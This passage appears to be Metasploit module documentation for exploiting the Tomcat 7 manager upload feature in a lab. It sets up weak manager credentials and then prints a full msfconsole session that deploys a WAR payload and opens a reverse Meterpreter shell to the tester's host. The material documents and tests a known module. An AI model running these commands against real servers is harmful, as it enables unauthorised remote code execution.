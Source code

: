     meterpreter > sysinfo
    Computer    : Ubuntu14
    OS          : Linux 4.2.0-27-generic (amd64)
    Meterpreter : java/linux
    ```

### Tomcat7 (7.0.68) - Ubuntu server 16.04 64bit
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup
1. Install Tomcat and dependencies: `apt-get install tomcat7 tomcat7-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat7/tomcat-users.xml` to add:

    ```
    <role rolename="manager-gui"/>
    <user username="tomcat" password="tomcat" roles="manager-gui"/>
    ```

2. Restart the service if a user was added/changed: `sudo service tomcat7 restart`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.118
    rhost => 192.168.2.118
    msf exploit(tomcat_mgr_upload) > set rport 8087
    rport => 8087
    msf exploit(tomcat_mgr_upload) > check
    
    [*] Tomcat Manager found running on linux platform and x64 architecture
    [!] No active DB -- Credential data will not be saved!
    [*] 192.168.2.118:8087 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Finding CSRF token...
    [*] Uploading and deploying QyjbnIqnn23FOe...
    [*] Uploading 6077 bytes as QyjbnIqnn23FOe.war ...
    [*] Executing QyjbnIqnn23FOe...
    [*] Executing /QyjbnIqnn23FOe/2NFgGA5fk1.jsp...
    [*] Finding CSRF token...
    [*] Undeploying QyjbnIqnn23FOe ...
    [*] Sending stage (49409 bytes) to 192.168.2.118
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.118:33808) at 2017-01-15 20:04:21 -0500
    